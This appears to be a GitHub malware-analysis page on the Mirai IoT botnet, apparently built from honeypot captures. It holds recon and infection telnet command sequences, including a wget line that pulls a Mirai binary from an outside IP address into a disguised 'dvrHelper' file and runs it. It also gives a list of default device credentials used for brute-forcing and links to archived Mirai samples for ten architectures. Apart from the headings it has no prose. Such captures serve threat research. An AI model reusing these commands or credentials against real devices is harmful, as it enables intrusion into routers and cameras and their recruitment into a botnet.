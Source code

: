 ### Recon phase (example)
```
enable
system
shell
sh
/bin/busybox MIRAI
```

### Infection phase (example)
```
enable
shell
sh
/bin/busybox ECCHI
/bin/busybox ps; /bin/busybox ECCHI
/bin/busybox cat /proc/mounts; /bin/busybox ECCHI
/bin/busybox echo -e '\x6b\x61\x6d\x69/dev' > /dev/.nippon; /bin/busybox cat /dev/.nippon; /bin/busybox rm /dev/.nippon
/bin/busybox ECCHI
rm /dev/.t; rm /dev/.sh; rm /dev/.human
cd /dev/
/bin/busybox cp /bin/echo dvrHelper; >dvrHelper; /bin/busybox chmod 777 dvrHelper; /bin/busybox ECCHI
/bin/busybox cat /bin/echo
/bin/busybox ECCHI
/bin/busybox wget; /bin/busybox tftp; /bin/busybox ECCHI
/bin/busybox wget http://185.188.206.99:80/bins/mirai.x86 -O - > dvrHelper; /bin/busybox chmod 777 dvrHelper; /bin/busybox ECCHI
./dvrHelper telnet.x86; /bin/busybox IHCCE
rm -rf upnp; > dvrHelper; /bin/busybox ECCHI
```

### Brute-force credentials
```
admin:1111
admin:1234
admin:12345
admin:123456
admin:admin
admin:admin1
admin:epicrouter
admin:password
admin:vertex25ektks123
default:antslq
guest:guest
root:
root:1001chin
root:12345
root:123456
root:54321
root:5up
root:GM8182
root:Zte521
root:admin
root:hunt5759
root:juantech
root:password
root:root
root:vizxv
root:xc3511
root:xmhdipc
root:zlxx.
support:support
user:user
```

### Captured samples
* [mirai.arm](samples/mirai.arm.7z) (`ELF 32-bit, ARM, MD5: 6bb978407fe68700ed0b63accf6f0c57`)
* [mirai.arm5n](samples/mirai.arm5n.7z) (`ELF 32-bit, ARM, MD5: 95a8c27a507e267d5dc12d2b957efce1`)
* [mirai.arm7](samples/mirai.arm7.7z) (`ELF 32-bit, ARM, MD5: 155995dabcfe094d6540a5f47ac5fea7`)
* [mirai.m68k](samples/mirai.m68k.7z) (`ELF 32-bit, Motorola 68020, MD5: 3e98f24421f8f1cb55c49e340182448c`)
* [mirai.mips](samples/mirai.mips.7z) (`ELF 32-bit, MIPS-I, MD5: de90297a22e4197687c053606340ee9b`)
* [mirai.mpsl](samples/mirai.mpsl.7z) (`ELF 32-bit, MIPS-I, MD5: 1ca9ea33f1c582a996b69310aaef7c28`)
* [mirai.ppc](samples/mirai.ppc.7z) (`ELF 32-bit, PowerPC, MD5: 535b2fb15900989856fb135ec2fff058`)
* [mirai.sh4](samples/mirai.sh4.7z) (`ELF 32-bit, Renesas SH, MD5: 853ae672d3fa0ff7ca1c91818fe36e31`)
* [mirai.spc](samples/mirai.spc.7z) (`ELF 32-bit, Sparc, MD5: 1738f307b8596269a58d778c143b7274`)
* [mirai.x86](samples/mirai.x86.7z) (`ELF 32-bit, Intel 80386, MD5: b79a5e78ca19beda30547c90b99a38eb`)

